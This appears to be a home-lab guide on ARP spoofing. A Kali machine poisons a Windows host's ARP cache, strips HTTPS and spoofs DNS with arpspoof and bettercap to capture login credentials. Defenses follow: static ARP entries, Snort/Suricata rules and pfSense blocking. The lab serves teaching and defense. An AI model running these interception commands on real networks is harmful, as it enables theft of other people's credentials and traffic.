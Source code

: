 ###  ARP Spoofing Attack & Defense**


##  Part 1: Capture Baseline (No Attack)

### On Windows:

1. Open **Command Prompt** and run:

   ```bash
   arp -a
   ```

   → Take a screenshot.

2. Open **Wireshark** → Select the Ethernet adapter.

3. Browse some websites (HTTP and HTTPS like `example.com`, `httpbin.org`, etc.)

4. Stop capture → Save it as `baseline.pcapng`



##  Part 2: ARP Spoofing Attack (Kali Linux)

### Option A: Using arpspoof

```bash
# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Spoof Windows -> pfSense
arpspoof -t <Windows_IP> <pfSense_IP>

# Open a second terminal
arpspoof -t <pfSense_IP> <Windows_IP>
```

### Option B: Using Bettercap

```bash
sudo bettercap -iface eth0
# In Bettercap prompt:
set arp.spoof.targets <Windows_IP>
arp.spoof on
net.sniff on
```



##  Part 3: Monitor Results

### On Windows:

* Run:

  ```bash
  arp -a
  ```

  → Observe if the pfSense MAC has changed to attacker’s MAC.

* Open **Wireshark**:

  * Check for duplicate IPs
  * Look for packets with attacker MAC

### On Kali:

* Use Wireshark to see traffic from Windows → pfSense
* Try to capture HTTP login credentials



##  Part 4: HTTPS Downgrade or DNS Spoofing (Optional)

### In Bettercap:

```bash
http.proxy on
http.proxy.sslstrip on
net.sniff on
dns.spoof on
set dns.spoof.domains facebook.com
set dns.spoof.address <Kali_IP>
```

### Try to:

* Visit `http://testphp.vulnweb.com`
* Enter test credentials → Capture in Bettercap logs or Wireshark



##  Part 5: Defense Tasks

###  A. Static ARP Entry on Windows

```powershell
netsh interface ipv4 add neighbors "Ethernet" <pfSense_IP> <Real pfSense_MAC>
```

* Re-run ARP spoofing attack → Confirm no changes in `arp -a`.



###  B. pfSense Detection & Blocking

#### 1. View ARP Table

* **Status → ARP Table**
* Check for multiple IPs with same MAC

#### 2. Install & Configure Snort/Suricata

* Go to **System → Package Manager → Available Packages**
* Install **Snort** or **Suricata**
* Enable on LAN interface
* Add rules for:

  * **ARP Spoofing**
  * **DNS Spoofing**
  * **MITM**

#### 3. Block Attacker

* Go to **Firewall → Rules → LAN**
* Add rule to **Block source IP or MAC** of attacker (Kali)
* Save and Apply



##  Part 6: Cleanup & Report

1. **Stop Bettercap/arpspoof** on Kali
2. Remove static ARP on Windows:

```powershell
netsh interface ipv4 delete neighbors "Ethernet" <pfSense_IP>
```

3. Turn off IP forwarding on Kali:

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

4. Save all **Wireshark captures**



